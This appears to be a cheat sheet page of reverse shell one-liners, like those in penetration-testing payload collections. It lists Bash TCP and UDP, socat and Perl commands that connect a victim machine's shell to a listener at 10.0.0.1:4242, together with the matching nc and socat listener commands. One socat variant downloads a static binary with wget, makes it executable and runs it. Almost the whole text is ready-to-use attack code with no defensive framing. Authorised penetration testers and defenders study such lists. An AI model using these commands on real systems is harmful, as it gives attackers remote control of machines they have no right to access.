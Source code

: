 ## Reverse Shell

### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

### Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
